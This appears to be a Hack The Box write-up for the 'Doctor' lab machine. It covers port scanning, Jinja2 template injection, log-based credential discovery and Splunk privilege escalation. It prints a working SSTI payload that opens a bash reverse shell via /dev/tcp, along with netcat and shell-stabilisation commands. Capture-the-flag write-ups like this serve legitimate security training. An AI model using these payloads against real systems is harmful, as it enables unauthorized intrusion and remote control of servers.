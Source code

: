 # Hack the box
## Doctor writeup

### Enumeartion / Recon

+ nmap port scan - ```nmap -sC -sV -oN nmap.txt 10.10.10.209```
```bash
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)
80/tcp   open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Doctor
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-09-06T15:57:27
| Not valid after:  2023-09-06T15:57:27
| MD5:   db23:4e5c:546d:8895:0f5f:8f42:5e90:6787
|_SHA-1: 7ec9:1bb7:343f:f7f6:bdd7:d015:d720:6f6f:19e2:098b
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
+ Open ports are
  + ssh on port 22
  + http on port 80
  + splunk on port 8089

+ Nothing interesting found on the website, looks like a static website, checking hostnames
+ Found a hostname ```doctors.htb``` on the website, adding to ```/etc/hosts``` file
+ Visiting doctors.htb sends us to another page
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/cde2e474-48ac-406a-aa38-107b86c7b564)
+ We can register and it creates an account for 20 minutes
+ Checking the source and see something strange - _<!--archive still under beta testing<a class="nav-item nav-link" href="/archive">Archive</a>-->_
+ We can create posts on this website and it shows us the posts on the homepage
+ Checking /archive directory but nothing interesting
+ Checking the source of /archive and found something interesting, it has xml output of the posts that we create
+ TRYING SSTI hacktricks injection ```{{ 7*7 }}``` and we get 49 on the archive source ```view-source:http://doctors.htb/archive```

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/58379fa5-5355-4014-aec1-113cebd7ae90)

+ Testing multiple Server Side Template Injection from https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti
+ **SUCCESS** We have successful SSTI
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/7da4af12-c81a-428f-81bd-7caedaf941ff)

### Initial Foothold

+ Checking for reverse shell payloads on PayloadAllTheThings SSTI -
+ The one that worked was - ```{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/<ip>/4444 0>&1'").read()}}{%endif%}{%endfor%}```
+ Starting netcat listener - ```nc -lvnp 4444``` and getting reverse shell as web@doctor
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/2e42813a-dcba-415b-bdbf-b15d7951a808)
+ ```/home``` directory has another user shaun with user.txt file
+ We are part of the admin group, we can check audit logs for passwords
  ```bash
  id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

### Lateral movement

+ To get user we need access to shaun user
+ Making the shell stable
  1. run this command ```python3 -c 'import pty;pty.spawn("/bin/bash")'``` on victim machine
  2. if the above doesn't work try - ```script -qc /bin/bash /dev/null```
  3. Do **ctrl+z** to background the process
  4. On your host machine in the same session do ```stty raw -echo;fg``` + Enter + Enter
  5. Now you have a stable shell
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/69c9d560-27e9-415b-9dfb-890b9f950dd6)

+ Running Linpeas on the machine
+ Found something in the logs
```bash
/var/log/apache2/backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
```
+ Trying the password for shaun user
+ BOOM, we are user

![image](https://github.com/brownPineapple/hackthebox/assets/30342446/6dc8a106-f03d-4179-8165-504fc8b7999d)

### Privilege escalation

+ Splunk is running on the machine 
+ Checking who is running splunk
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/e21dea3b-0b59-4aef-b05d-4695d319b512)
+ This can be a way to get root if splunk is vulnerable to code execution
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/d0e774cc-44e5-44ed-8bfa-8fc93accf825)
+ This seems pretty outdated, checking exploits online.
+ Found an exploit for this version called SplunkWhisperer2 - https://github.com/cnotin/SplunkWhisperer2.git
+ Running the exploit
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/3837527a-08c3-41ef-a979-ab7c8d316bf2)
+ We get authentication failure, since we have the creds from earlier enumeration, we can try the credentials
+ Adding a reverse shell payload from - https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/0acf874a-a1e3-44cc-9bd3-ce4591808089)
![image](https://github.com/brownPineapple/hackthebox/assets/30342446/16999956-7a6a-4598-aa27-a1655be541cd)
+ PWNED !!!
